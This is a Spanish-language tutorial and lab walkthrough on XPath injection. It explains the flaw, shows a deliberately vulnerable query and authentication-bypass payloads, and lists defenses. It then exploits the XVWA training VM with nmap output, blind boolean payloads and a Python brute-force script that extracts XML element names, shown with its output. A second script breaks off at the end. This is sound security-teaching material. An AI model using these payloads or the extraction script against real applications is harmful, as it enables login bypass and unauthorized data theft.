---
# Inyecciones XPath

XPath es un lenguaje que utilizamos para realizar consultas en documentos XML. Este lenguaje se emplea habitualmente en aplicaciones web que manejan datos estructurados en XML, como pueden ser usuarios, catálogos de productos o configuraciones del sistema. 

Cuando desarrollamos aplicaciones que construyen dinámicamente consultas XPath a partir de datos introducidos por el usuario, debemos tener cuidado. Si no validamos correctamente la entrada, estamos abriendo la puerta a que un atacante pueda modificar la lógica de la consulta, algo muy similar a las inyecciones SQL. A este tipo de ataque lo llamamos **inyección XPath**.

## ¿Cómo funciona una inyección XPath?

La inyección XPath se da cuando una aplicación web utiliza entradas del usuario para formar una consulta XPath, y esas entradas no se filtran ni se escapan correctamente. Esto permite al atacante alterar la estructura de la consulta para acceder a información a la que normalmente no debería tener acceso.

### Consulta vulnerable típica

Supongamos que tenemos un sistema de login con usuarios almacenados en un archivo XML. La aplicación realiza una consulta como esta:

```python
xpath_query = "//users/user[username/text()='" + user_input + "' and password/text()='" + pass_input + "']"
````

Si el atacante introduce lo siguiente:

- Usuario: `admin' or '1'='1`
    
- Contraseña: `noimporta`
    

La consulta resultante será:

```xpath
//users/user[username/text()='admin' or '1'='1' and password/text()='noimporta']
```

Esta condición siempre será verdadera, por lo tanto, se le permite el acceso al atacante sin necesidad de conocer una contraseña válida.

---

## Ejemplo práctico

En el laboratorio de XVWA (Xtreme Vulnerable Web Application), tenemos una funcionalidad de login que emplea XPath sobre un archivo XML con credenciales. Usamos el siguiente payload en el campo usuario:

```
' or '1'='1
```

Y cualquier valor en el campo de contraseña. Al hacerlo, podemos iniciar sesión como cualquier usuario sin tener las credenciales reales.

---

## Ejemplo realista

Imaginemos una plataforma de gestión de clientes que guarda los datos en XML. El equipo de desarrollo decide implementar una búsqueda personalizada donde el cliente puede buscar por nombre o correo electrónico. Sin filtros adecuados, un atacante podría hacer una petición como esta:

```
correo='] | //cliente[1]/correo/text() | //cliente[
```

Esto forzaría a la aplicación a devolver múltiples correos, incluso de usuarios que no deberían mostrarse.

---

## Otras formas de ataque con XPath

1. **Fuerza bruta de rutas XPath**  
    Podemos adivinar la estructura del documento XML probando combinaciones de rutas hasta dar con una que devuelva datos válidos.
    
2. **Recuperación de información del servidor**  
    A través de errores devueltos por XPath mal formateadas, podemos deducir nombres de campos o estructuras del XML.
    
3. **Manipulación de respuestas XPath**  
    En ciertos casos, podemos modificar cómo se generan las respuestas, por ejemplo, provocando que la aplicación crea que se ha creado un nuevo usuario, cuando en realidad hemos manipulado la consulta.
    

---

## Medidas de protección

- Validar y sanear toda entrada del usuario antes de usarla en una consulta XPath.
    
- Evitar la construcción dinámica de expresiones XPath con datos no controlados.
    
- Aplicar el principio de mínimos privilegios sobre los archivos y recursos XML.
    
- Actualizar librerías, frameworks y sistemas operativos.
    
- Realizar pruebas de caja negra o blanca sobre las funciones que interactúan con XML.
    

---

## Máquina vulnerable para práctica

Podemos practicar esta técnica en el entorno vulnerable **XVWA 1**, disponible en Vulnhub:

**Enlace de descarga**: [https://www.vulnhub.com/entry/xtreme-vulnerable-web-application-xvwa-1,209/](https://www.vulnhub.com/entry/xtreme-vulnerable-web-application-xvwa-1,209/)

Este entorno nos permite explorar y entender en profundidad cómo funcionan las inyecciones XPath y cómo pueden ser detectadas y explotadas.

---

# Laboratorio guía paso a paso de Explotación

## Enumeración

Acción:

```bash
nmap -p80,139,445 -sCV 192.168.1.70 -oN targeted
```

Resultado:

```bash
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.9-Ubuntu (workgroup: WORKGROUP)
MAC Address: 00:0C:29:73:85:B1 (VMware)
Service Info: Host: XVWA

Host script results:
|_clock-skew: mean: 1h59m57s, deviation: 3h27m51s, median: -3s
|_nbstat: NetBIOS name: XVWA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2025-06-11T19:15:44
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.9-Ubuntu)
|   Computer name: xvwa
|   NetBIOS computer name: XVWA\x00
|   Domain name: \x00
|   FQDN: xvwa
|_  System time: 2025-06-11T13:15:44-06:00
```

Explicación: como vemos que sale mucho este nombre `XVWA` probamos con él en el navegador





**Configuración:** para preparar nuestro entorno le damos a `Setup/Reset` y posteriormente a `Submit/Reset`. Llegaremos a la siguiente página y deberemos acudir a la pestaña de la izquierda `XPATH Injection`





- Acción 1: interactuamos con lo que vemos, nos dice buscar un 'Coffee' probamos a poner un '1' y buscamos, vemos que nos muestra la descripción de un tipo de café. Este campo es susceptible de **SQLi**. Luego veremos que realmente no, pero la estructura inicial de una Injection XPath puede ser parecida



- Acción 2: interceptamos con [Burp Suite](../../Herramientas/Burp%20Suite) la solicitud que vamos a enviar para hacer pruebas. Primero en una inyección simple tenemos un error. Pero si pensamos que la estructura de la consulta/código es una en la que podamos cerrar lo consulta aprovechando la comilla suelta podemos hacer `' or '1'='1` y ver que tenemos todos los resultados de 'Coffee'





---
### Diferencia con SQLi

> Aunque se menciona que “la estructura es parecida a una SQLi”, hay que añadir:

- Que XPath no usa operadores SQL (`SELECT`, `FROM`, etc.).
    
- Que opera sobre árboles jerárquicos XML, no sobre tablas relacionales.
    

> Tabla comparativa:  
> | SQLi                                           | XPath Injection |  
> |-----------------------------------|------------------------------------|  
> | `' OR '1'='1`                            | `' or '1'='1`                             |  
> | `SELECT * FROM users WHERE…`| `//users/user[username='…']` |  
> | `LIMIT`, `UNION`, etc.                   | `/`, `//`, `text()`, `position()`   |

---
De esta forma confirmamos el número de veces que aparece esta etiqueta `' and count(/*)='1`



De esta forma confirmamos que el nombre de la etiqueta es 'Coffees' (aquí lo sabemos pero en un caso real podemos por fuerza bruta conseguir esta información a través de inyecciones XPath) `' and name(/*[1])='Coffees`



De esta forma sabemos que empieza por la letra 'C' `' and substring(name(/*[1]),1,1)='C`



De esta forma podemos saber la longitud de la primera etiqueta `' and string-length(name(/*[1]))='7`




Podemos automatizar este proceso con un [Script](Script.md)

---
## Explotación

**Script de fuerza bruta de inyecciones XPath**:

```python
#/usr/env/bin python3

from pwn import *

import requests, time, sys, pdb, string, signal

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://192.168.1.70/xvwa/vulnerabilities/xpath/"
characters = string.ascii_letters

def xPathInjection():

    data = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Data")

    for position in range(1, 8):
        for character in characters:
            post_data = {
                'search': "1' and substring(name(/*[1]),%d,1)='%s" % (position, character),
                'submit': ''
            }

            r = requests.post(main_url, data=post_data)

            if len(r.text) != 8681:
                data += character
                p2.status(data)
                break

    p1.success("Ataque de fuerza bruta concluido")
    p2.success(data)

if __name__ == '__main__':
    xPathInjection()
```

Resultado: 

```bash
[+] Fuerza bruta: Ataque de fuerza bruta concluido
[+] Data: Coffees
```

Explicación: el objetivo de este ataque es extraer la información de como esta montado el archivo `.xml` que da forma y contenido a la página. Con esta información podemos realizar acciones maliciosa a través de inyecciones XPath

Este es el archivo **coffee.xml** del que estamos extrayendo la información mediante fuerza bruta y con BurpSuite. Hemos sacado el nombre de la primera etiqueta, ahora podemos seguir sacando información hasta montar la página completa o los apartados necesarios

```xml
<Coffees>
  <Coffee ID="1">
    <ID>1</ID>
    <Name>Affogato</Name>
    <Desc>An affogato (Italian, "drowned") is a coffee-based beverage. It usually takes the form of a scoop of vanilla gelato or ice cream topped with a shot of hot espresso. Some variations also include a shot of Amaretto or other liqueur.</Desc>
    <Price>$4.69</Price>
    <Secret>Es usted un Hacker</Secret>
  </Coffee>
  <Coffee ID="2">
    <ID>2</ID>
    <Name>Americano</Name>
    <Desc>An Americano is an espresso-based drink designed to resemble coffee brewed in a drip filter, considered popular in the United States of America. This drink consists of a single or double-shot of espresso combined with up to four or five ounces of hot water in a two-demitasse cup.</Desc>
    <Price>$5.00</Price>
  </Coffee>
  <Coffee ID="3">
    <ID>3</ID>
    <Name>Bicerin</Name>
    <Desc>Bicerin is a traditional warm coffee concoction native to Turin, Italy, made of espresso, drinking chocolate and whole milk served layered in a small rounded glass. The word bicerin is Piedmontese for “small glass”. The beverage has been known since the 18th-century and was famously praised by Alexandre Dumas in 1852.</Desc>
    <Price>$8.90</Price>
  </Coffee>
  <Coffee ID="4">
    <ID>4</ID>
    <Name>Café Bombón</Name>
    <Desc>Cafe Bombon was made popular in Valencia, Spain, and spread gradually to the rest of the country. It might have been re-created and modified to suit European tastebuds as in many parts of Asia such as Malaysia, Thailand and Singapore the same recipe for coffee which is called "Kopi Susu Panas" (Malaysia) or "Kafe Ron" (Thailand) has already been around for decades and is very popular in "mamak" stalls or "kopitiams" in Malaysia.</Desc>
    <Price>$7.08</Price>
  </Coffee>
  <Coffee ID="5">
    <ID>5</ID>
    <Name>Café au lait</Name>
    <Desc>Café au lait is a French coffee drink. In Europe, "café au lait" stems from the same continental tradition as "caffè latte" in Italy, "café con leche" in Spain, "kawa biała" ("white coffee") in Poland, "Milchkaffee" in Germany, "Grosser Brauner" in Austria, "koffie verkeerd" in Netherlands, and "café com leite" in Portugal, simply "coffee with milk".</Desc>
    <Price>$10.15</Price>
  </Coffee>
  <Coffee ID="6">
    <ID>6</ID>
    <Name>Caffé corretto</Name>
    <Desc>Caffè corretto is an Italian beverage that consists of a shot of espresso with a shot of liquor, usually grappa, and sometimes sambuca or brandy. It is also known (outside of Italy) as an "espresso corretto". It is ordered as "un caffè corretto alla grappa," "[…] corretto alla sambuca," or "[…] corretto al cognac," depending on the desired liquor.</Desc>
    <Price>$6.01</Price>
  </Coffee>
  <Coffee ID="7">
    <ID>8</ID>
    <Name>Caffé latte</Name>
    <Desc>In Italy, latte means milk. What in English-speaking countries is now called a latte is shorthand for "caffelatte" or "caffellatte" ("caffè e latte"). The Italian form means "coffee and milk", similar to the French café au lait, the Spanish café con leche and the Portuguese café com leite. Other drinks commonly found in shops serving caffè lattes are cappuccinos and espressos. Ordering a "latte" in Italy will get the customer a glass of hot or cold milk. Caffè latte is a coffee-based drink made primarily from espresso and steamed milk. It consists of one-third espresso, two-thirds heated milk and about 1cm of foam. Depending on the skill of the barista, the foam can be poured in such a way to create a picture. Common pictures that appear in lattes are love hearts and ferns. Latte art is an interesting topic in itself.</Desc>
    <Price>$6.04</Price>
  </Coffee>
  <Coffee ID="8">
    <ID>8</ID>
    <Name>Café mélange</Name>
    <Desc>Café mélange is a black coffee mixed (french "mélange") or covered with whipped cream, very popular in Austria, Switzerland and the Netherlands.</Desc>
    <Price>$3.06</Price>
  </Coffee>
  <Coffee ID="9">
    <ID>9</ID>
    <Name>Cafe mocha</Name>
    <Desc>Caffè Mocha or café mocha, is an American invention and a variant of a caffe latte, inspired by the Turin coffee beverage Bicerin. The term "caffe mocha" is not used in Italy nor in France, where it is referred to as a "mocha latte". Like a caffe latte, it is typically one third espresso and two thirds steamed milk, but a portion of chocolate is added, typically in the form of sweet cocoa powder, although many varieties use chocolate syrup. Mochas can contain dark or milk chocolate.</Desc>
    <Price>$4.05</Price>
  </Coffee>
  <Coffee ID="10">
    <ID>10</ID>
    <Name>Cappuccino</Name>
    <Desc>A cappuccino is a coffee-based drink made primarily from espresso and milk. It consists of one-third espresso, one-third third heated milk and one-third milk foam and is generally served in a 6 to 8-ounce cup. The cappuccino is considered one of the original espresso drinks representative of Italian espresso cuisine and eventually Italian-American espresso cuisine.</Desc>
    <Price>$3.06</Price>
  </Coffee>
</Coffees>
```

**Nota:** hemos añadido en la primera etiqueta, la sub-etiqueta `<Secret>Es usted un Hacker</Secret>`, esto desde la máquina víctima al archivo `coffee.xml` ubicado en la ruta `/var/www/html/xvwa/vulnerability/xpath/` 

---

**Archivo Data**: aquí es donde vamos volcando la información extraída. Como vemos arriba ahora tenemos que sacar la sub etiqueta `<Coffee>`, su nombre y el número de veces que está

```xml
<Coffees>

</Coffees>
```

Con el payload `' and count(/*[1]/*)>='10` podemos saber el número exacto de veces que se repite un argumento 



**Data**:  entonces sabemos que tenemos una estructura así. No sabemos su nombre pero sabemos que esta 10 veces. Por el mismo procedimiento que con la primera etiqueta, adaptado el script para la posición de la etiqueta correspondiente, podemos extraer esta información

```xml
<Coffees>
	<Etiqueta></Etiqueta>
	<Etiqueta></Etiqueta>
	<Etiqueta></Etiqueta>
	<Etiqueta></Etiqueta>
	<Etiqueta></Etiqueta>
	<Etiqueta></Etiqueta>
	<Etiqueta></Etiqueta>
	<Etiqueta></Etiqueta>
	<Etiqueta></Etiqueta>
	<Etiqueta></Etiqueta>
</Coffees>
```

Con el payload `' and name(/*[1]/*[1])='Coffee` confirmamos que nos muestra la información, por lo que como sabíamos se llama 'Coffee'. Este método consiste en ir moviendo por sub-etiquetas o entre ellas. Por ejemplo podemos confirmar el campo 'ID' que como vimos en el archivo `coffees.xml` es la sub-etiqueta 3 de la principal. Entonces con el payload `' and name(/*[1]/*[1]/*[1])='ID` al obtener resultado, confirmamos que este método muestra la información si es correcta. Por lo que jugando con el método anterior `substring` y el script podemos extraer las distintas etiquetas e ir montando nuestro archivo *Data*




Con el payload `' and string-length(name(/*[1]/*[1]))>='6` obtenemos la longitud exacta, que es el dato que nos faltaba para el script



Con el payload `' and substring(name(/*[1]/*[1]),1,1)='C` obtenemos para la primera posición el valor del carácter 


---

**Script:** con esta información ya podemos modificar mínimamente el anterior script para que apunte a esta segunda etiqueta

```python
#/usr/env/bin python3

from pwn import *

import requests, time, sys, pdb, string, signal

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
